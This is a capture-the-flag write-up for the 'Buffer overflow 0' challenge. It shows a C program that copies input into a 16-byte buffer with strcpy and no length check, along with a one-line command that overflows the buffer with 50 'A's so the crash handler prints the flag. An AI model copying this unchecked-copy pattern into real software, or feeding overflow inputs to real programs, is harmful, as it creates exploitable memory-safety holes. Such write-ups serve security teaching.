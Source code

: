Buffer overflow 0 - Points: 150
===========

## Description

>Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_1_316c391426b9319fbdfb523ee15b37db

## Hint:

> * How can you trigger the flag to print?
> * If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

## Useful Information

There is no check of the input length at :
> * strcpy(buf, input);

The function : 
> * void sigsegv_handler(int sig)

will print the flag on stderr when a error occured .

## Exploit

```diff
- Making an error by overflowing the buf[16] will _lauch the function_ sigsegv_handler(int sig) which will print the flag on stderr
```
> ./vuln $(python -c 'print "A"*50')                     


